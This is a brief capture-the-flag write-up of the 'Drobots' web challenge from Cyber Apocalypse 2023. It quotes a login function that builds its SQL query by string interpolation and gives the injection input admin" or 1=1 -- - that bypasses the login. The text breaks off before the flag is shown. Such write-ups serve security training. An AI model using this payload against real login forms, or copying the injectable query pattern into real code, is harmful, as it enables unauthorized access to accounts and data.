

# Cyber Apocalypse 2023

## Drobots

> Pandora's latest mission as part of her reconnaissance training is to infiltrate the Drobots firm that was suspected of engaging in illegal activities. Can you help pandora with this task?
>
>  Author: N/A
>
> [`web_drobots.zip`](web_drobots.zip)

Tags: _web_

## Solution
We are presented with an login form. By looking at the source code we find the login code with a suspicious comment.
```
def login(username, password):
    # We should update our code base and use techniques like parameterization to avoid SQL Injection
    user = query_db(f'SELECT password FROM users WHERE username = "{username}" AND password = "{password}" ', one=True)

    if user:
        token = createJWT(username)
        return token
    else:
        return False
```

So we can use sql injection to pass by the login.
```
user: admin" or 1=1 -- -
password: test
```

After logging in we find the flag:
